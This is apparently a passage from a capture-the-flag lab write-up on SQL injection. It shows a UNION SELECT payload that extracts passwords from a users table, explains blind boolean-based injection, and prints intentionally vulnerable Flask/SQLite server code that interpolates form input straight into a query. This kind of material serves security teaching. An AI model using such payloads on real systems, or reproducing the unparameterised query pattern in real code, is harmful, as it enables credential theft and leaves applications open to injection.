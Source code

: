 3. get password from `users_8508342390` table

input:

```
%" UNION SELECT password as username FROM users_8508342390 --
```


---

# 5

## Description

SQL injection happen in all sorts of places in an application and, like command injections, sometimes the result of the query is not sent back to you. With command injections, this case is easier: the commandline is so powerful that you can do a lot of things even blindly. With SQL injections, this is sometimes not the case. For example, unlike some other databases, the SQLite database used in this module cannot access the filesystem, execute commands, and so on.

So, if the application does not show you the data resulting from your SQL injection, how do you actually leak the data? Sometimes, even if the actual data is not shown, you can recover one bit! If the result of a query can make the application act two different ways (say, redirecting to an "Authentication Success" page versus an "Authentication Failure" page), then an attacker can carefully craft yes/no questions that they can get answers to.

This challenge gives you exactly this scenario. Can you leak the flag?

## Solution

1. read the server code

```python
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")


@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)


```